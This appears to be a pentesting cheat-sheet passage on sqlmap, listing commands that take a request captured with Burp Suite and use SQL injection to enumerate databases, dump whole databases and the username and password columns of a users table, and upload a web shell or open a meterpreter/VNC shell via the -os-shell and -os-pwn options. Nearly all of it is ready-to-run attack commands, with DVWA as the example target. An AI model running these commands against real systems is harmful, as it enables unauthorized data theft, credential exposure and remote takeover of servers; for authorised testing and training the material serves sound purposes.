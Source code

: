 Also, if we wanted to specify an alternative HTTP method, other than GET and POST (e.g., PUT), we can utilize the option --method, as follows:

```shell-session
sqlmap -u www.target.com --data='id=1' --method PUT
```


## Using -r file

Capture the request with burpsuite and save it to a file.

```bash
# dump all
sqlmap -r nameoffiletoinject --dump-all --exclude-sysdbs

# Get all databases
sqlmap -r nameoffiletoinject --method POST --data "parameter=lala" -p parameter --dbs    

# Get all tables 
sqlmap -r nameoffiletoinject --tables

# Get all columns of a given database dwva
sqlmap -r nameoffiletoinject --current-db dwva -columns

# Get all tables of a given database, for example dwva
sqlmap -r nameoffiletoinject -D dwva --tables

# Get all columns of a given table in a given database
sqlmap -r nameoffiletoinject -D dwva -T users --columns

# Dump users table
sqlmap -r nameoffiletoinject -D dwva -T users --dump

# To narrow down the rows based on their ordinal number(s) inside the table, we can specify the rows with the --start and --stop options (e.g., start from 2nd up to 3rd entry), as follows:
sqlmap -r nameoffiletoinject --dump -T users -D dwva --start=2 --stop=3

# Conditional Enumeration: column name starting with f.
sqlmap -r nameoffiletoinject --dump -T users -D testdb --where="name LIKE 'f%'"

# Return the row of the user with the name Kimberly
sqlmap -r nameoffiletoinject --dump --columns --where="name LIKE 'Kimberly%'" --batch

# Example: Search the name of column containing in the name the string style
sqlmap -r nameoffiletoinject --search -C style --batch

# Get columns username and password of table users from table dwva
sqlmap -r nameoffiletoinject -D dwva -T users -C username,password --dump

# Automatically attempt to upload a web shell using the vulnerable parameter and execute it
sqlmap -r nameoffiletoinject -p vuln-param -os-shell 

# Alternatively use the os-pwn option to gain a shell using meterpreter or vnc 
sqlmap -r nameoffiletoinject -p vuln-param -os-pwn 
```

